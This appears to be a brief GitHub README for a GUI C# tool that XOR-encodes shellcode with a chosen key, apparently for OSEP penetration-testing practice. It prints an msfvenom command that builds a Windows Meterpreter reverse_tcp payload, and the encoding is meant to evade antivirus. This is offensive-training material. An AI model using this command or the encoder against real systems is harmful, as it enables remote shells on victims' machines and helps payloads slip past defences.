 Source: https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/XOR%20Shellcode%20Encoder/Program.cs

Just a simple C# application ported to GUI for ease of use that XOR a shellcode you provide with specified key.

> [!NOTE]
> Make sure to insert only the hex portion of the shellcode, e.g: `0x48, 0x4f`...<br>
> Command ran: `msfvenom -p windows/x64/meterpreter/reverse_tcp exitfunc=thread LHOST=ens33 LPORT=443 -f csharp`

![image](https://github.com/user-attachments/assets/668eca30-24c0-40ac-9a91-500bbfefe94e)

